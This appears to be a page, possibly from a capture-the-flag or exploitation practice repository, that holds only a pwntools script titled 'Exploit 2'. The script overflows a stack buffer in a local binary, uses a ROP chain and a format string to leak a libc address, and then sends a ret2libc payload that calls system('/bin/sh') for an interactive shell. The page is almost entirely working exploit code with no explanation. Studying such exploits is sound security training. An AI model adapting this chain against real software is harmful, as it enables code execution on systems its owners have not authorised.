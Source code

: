 ## Exploit 2

```python
from pwn import *

libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
bianry = ELF('./something')

rop= ROP(bianry)
r = process(bianry.path)
gdb.attach(r, api = True)

junk = b'a'*40
printf_add = 0x401080
gets_add = 0x401090
vuln_add = 0x00000000004011dd
add_store_string = 0x404070
pop_rdi_ret = rop.find_gadget(['pop rdi','ret'])[0]
ret = rop.find_gadget(['ret'])[0]


print(r.recvuntil(b'something : '))

payload1 = junk + p64(ret) + p64(pop_rdi_ret) + p64(add_store_string)  + p64(gets_add)
payload1 += p64(ret) + p64(pop_rdi_ret) + p64(add_store_string)  + p64(printf_add)
payload1 += p64(ret) + p64(vuln_add)

r.sendline(payload1)

payload2 = b"%3$p"
r.sendline(payload2)
output = r.recvuntil(b"something : ")

stdin = int(output.split(b"Say")[0],16)
leak_stdin_offset = libc.symbols['_IO_2_1_stdin_']
libc_base = stdin - leak_stdin_offset

system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b'/bin/sh\x00'))

system_add = libc_base + system_offset
binsh_add = libc_base + binsh_offset

payload3 = junk + p64(ret) + p64(pop_rdi_ret) + p64(binsh_add) + p64(system_add)
r.sendline(payload3)
r.interactive()

```
